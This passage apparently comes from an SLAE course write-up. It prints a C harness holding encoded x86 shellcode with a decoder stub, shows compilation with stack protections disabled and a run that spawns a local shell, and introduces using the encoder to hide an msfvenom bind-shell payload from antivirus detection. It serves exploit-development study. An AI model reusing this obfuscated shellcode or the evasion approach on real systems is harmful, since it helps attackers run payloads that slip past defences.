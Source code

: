 A C program scripted with the newly generated shellcode:

```c
/**
* Filename: shellcode.c
* Author: h3ll0clar1c3
* Purpose: Decode the encoded shellcode and spawn a shell on the local host  
* Compilation: gcc -fno-stack-protector -z execstack -m32 shellcode.c -o encoder_final  
* Usage: ./encoder_final
* Shellcode size: 60 bytes
* Architecture: x86
**/

#include <stdio.h>
#include <string.h>

unsigned char decoder[] = \
"\xeb\x17\x5e\x31\xc0\x31\xdb\x31\xc9\xb1\x0f\x8a\x06\x86\x46"
"\x01\x88\x06\x83\xc6\x02\xe2\xf4\xeb\x05\xe8\xe4\xff\xff\xff"
"\xc0\x31\x68\x50\x61\x62\x68\x73\x62\x68\x6e\x69\x68\x2f\x2f"
"\x2f\x2f\x2f\xe3\x89\x89\x50\x53\xe2\xe1\x89\x0b\xb0\x80\xcd";

int main()
{
        printf("Shellcode length:  %d\n", strlen(decoder));
        int (*ret)() = (int(*)())decoder;
        ret();
}
```

#### POC  
------

The C program is compiled as an executable binary with stack-protection disabled, and executed resulting in a shellcode size of 60 bytes:

```bash
osboxes@osboxes:~/Downloads/SLAE$ gcc -fno-stack-protector -z execstack -m32 shellcode.c -o encoder_final
osboxes@osboxes:~/Downloads/SLAE$ ./encoder_final 
Shellcode length:  60
osboxes@osboxes:/home/osboxes/Downloads/SLAE$ id
uid=1000(osboxes) gid=1000(osboxes) groups=1000(osboxes),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
 
```

#### AV Evasion  
------

Expanding the POC and the notion of AV evasion, a Bind TCP shellcode generated by Msfvenom was incorporated into the Encoder to compare the result between the original (unobfuscated) and obfuscated shellcode binary analyzed on VirusTotal.
